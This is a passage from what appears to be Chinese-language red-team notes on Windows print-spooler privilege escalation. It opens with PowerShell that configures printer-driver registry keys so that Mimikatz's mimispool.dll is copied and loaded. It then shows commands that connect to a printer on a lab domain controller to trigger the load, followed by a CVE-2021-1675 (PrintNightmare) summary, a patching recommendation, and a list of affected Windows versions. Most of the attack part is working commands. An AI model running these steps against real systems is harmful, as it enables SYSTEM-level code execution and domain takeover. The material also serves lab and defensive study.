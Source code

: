 ```powershell
New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null
```
Execute the driver
```powershell
$serverName  = 'dc.purple.lab'
$printerName = 'Universal Priv Printer'
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```
### PrinterNightmare
漏洞CVE编号：CVE-2021-1675。未经身份验证的远程攻击者可利用该漏洞以SYSTEM权限在域控制器上执行任意代码，从而获得整个域的控制权。建议受影响用户及时更新漏洞补丁进行防护，做好资产自查以及预防工作，以免遭受黑客攻击。

**影响范围**

Windows Server 2012 R2 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 (Server Core installation)
Windows Server 2012
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for x64-based Systems Service Pack 2
Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for 32-bit Systems Service Pack 2
Windows RT 8.1
Windows 8.1 for x64-based systems
Windows 8.1 for 32-bit systems
Windows 7 for x64-based Systems Service Pack 1
Windows 7 for 32-bit Systems Service Pack 1
Windows Server 2016 (Server Core installation)
Windows Server 2016
Windows 10 Version 1607 for x64-based Systems
Windows 10 Version 1607 for 32-bit Systems
Windows 10 for x64-based Systems
Windows 10 for 32-bit Systems
Windows Server, version 20H2 (Server Core Installation)
Windows 10 Version 20H2 for ARM64-based Systems
Windows 10 Version 20H2 for 32-bit Systems
Windows 10 Version 20H2 for x64-based Systems
Windows Server, version 2004 (Server Core installation)